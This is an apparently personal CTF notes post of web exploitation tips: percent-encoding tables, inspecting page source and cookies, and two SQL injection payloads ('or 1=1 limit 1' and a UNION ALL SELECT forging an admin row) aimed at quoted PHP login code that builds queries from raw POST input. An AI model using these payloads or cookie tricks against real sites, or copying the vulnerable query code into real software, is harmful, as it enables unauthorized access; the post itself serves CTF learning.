 Learning from the CTF : Web Exploitation
========================================

This post (Work in Progress) lists the tips and tricks while doing Web Exploitation challenges during various CTF’s.

* You may want to use your browser to view the source of the web page. Sometimes, important information is hidden using comments.

* It may be helpful to learn how to 'Inspect Elements' in your browser. It helps you to distinguish each element which might be or not be hidden.

* Some symbols need to be URL Encoded when included in GET requests. 

  Reserved characters after percent-encoding

  .. code-block :: bash 

    !	#	$	&	'	(	)	*	+	,	/	:	;	=	?	@	[	]
    %21	%23	%24	%26	%27	%28	%29	%2A	%2B	%2C	%2F	%3A	%3B	%3D	%3F	%40	%5B	%5D

  Common characters after percent-encoding (ASCII or UTF-8 based)

  .. code-block :: bash 

      newline	                space	"	%	-	.	<	>	\	^	_	`	{	|	}	~
      %0A or %0D or %0D%0A	%20	%22	%25	%2D	%2E	%3C	%3E	%5C	%5E	%5F	%60	%7B	%7C	%7D	%7E

* In some web exploitation challenges, if the secret is stored on the client side and there are some javascript involved, you could possibly find the answer in the Javascript console, Browser Developer Tools. (F12 Key).

* Websites keep track of you (Whether you are login-ed or not) by keeping a cookie for you, check that if the value (if easy and most probably assigned linearly) of cookie can be changed to any user who might already be logined.

* If the Login prompt contains SQL query and check contains only one result if (mysqli_num_rows($result) !== 1), then use limit 1 such as  admin'   or 1=1 limit 1;#

 .. code-block :: bash 

   $username = $_POST["username"];
   $password = $_POST["password"];
   $query = "SELECT * FROM users WHERE username='$username' AND password='$password'";
   $result = mysqli_query($con, $query);

   if (mysqli_num_rows($result) !== 1) {
      echo "<h1>Login failed.</h1>";
      } else {
      echo "<h1>Logged in!</h1>";
      echo "<p>Your flag is: $FLAG</p>";
   }

* If the Login prompt contains SQL query and checks only one result, plus have extra checks (see example below), then we can create a fake row  SQL whose value we control.

  .. code-block :: bash 

    $con = mysqli_connect("localhost", "sql2", "sql2", "sql2");
    $username = $_POST["username"];
    $password = $_POST["password"];
    $query = "SELECT * FROM users WHERE username='$username'";
    $result = mysqli_query($con, $query);

    $logged_in = false;
    if (mysqli_num_rows($result) === 1) {
  	$row = mysqli_fetch_array($result);
  	if ($row["password"] === $password) {
        	$logged_in = true;
    		echo "<h1>Logged in!</h1>";
    		echo "<pre>User level: ", $row["user_level"],  "</pre>";
    		if ($row["user_level"] >= 1337) {
      			echo "<p>Your flag is: $FLAG</p>";
    			} else {
      		  echo "<p>Only user levels 1337 or above can see the flag.</p>";
    			}
  		}
	  }

   You have to create a fake query such as

 .. code-block :: bash 

   random'AND 1=0 UNION ALL SELECT 'admin' AS username, 'hax' AS password, 2000 AS user_level --
   where  
   The ' closes the username string and 1=0 will always return false, invalidating the first half.
   The union all statement allows us to concatenate two SQL select queries, so we append UNION ALL and then our fake select statement.

		
 Don't forget to enter the same password in the password field :P

* Perl Script running on a webpage, read `Security Issues in Perl Scripts <http://www.cgisecurity.com/lib/sips.html>`_.

* In some web exploitation excercises, you can modify the GET/POST request in the burpsuite to get the flag.

